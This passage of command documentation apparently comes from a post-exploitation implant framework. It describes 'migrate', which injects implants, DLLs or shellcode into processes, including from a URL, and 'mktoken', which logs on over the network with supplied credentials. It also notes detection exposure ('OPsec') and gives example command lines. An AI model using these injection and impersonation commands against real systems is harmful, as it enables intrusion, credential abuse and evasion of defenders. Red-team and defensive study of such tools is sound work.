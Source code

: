 The arguments for this command are similar to the `spawn` command.

### Examples:

```shell
migrate pipe-me self
migrate -m exec pipe-me
migrate -p my_profile -m dll pipe-me ~/implant.dll
migrate pipe-me <http://path.to.shell.code>
migrate -m url pipe-me path.to.shell.code
migrate -p my_profile -m asm ~/bolt.bin
migrate -m zombie -f notepad.exe ~/implant.dll
migrate -m self -u admin -p Password123 derp-me
```

## mktoken

```text
mktoken [-i|--interactive] [-d|--domain <domain>] <[domain\\]user[@domain]> [password]
```

|       |                             |
| ----- | --------------------------- |
| OS    | Any                         |
| OPsec | Maybe _(Network/ETW logs?)_ |
| Admin | No                          |

Perform a network login with the supplied credentials. The command will
NOT use any stored credentials and will only use the credentials specified.

This allows for any commands/access outside of the local device to be
authenticated as the target user. The current process username will NOT
change as this only affects REMOTE resources.

If a domain is not specified with `-d` or `--domain`, it will be parsed
from the username. Common domain prefixes/suffixes are recognized, such
as:

- user@domain
- domain/user
- domain\user

If a domain is found, the username will be cleaned (without the domain)
and use and the domain will be used as the new domain value.

By default this command will do a network login. If the `-i`/`--interactive`
argument is supplied, an interactive login attempt will be made.

Alias of `make_token`.

### Examples:

```shell
mktoken alice
mktoken bob Password123
mktoken corp\bob Password123
mktoken -d example.com joe password1
```
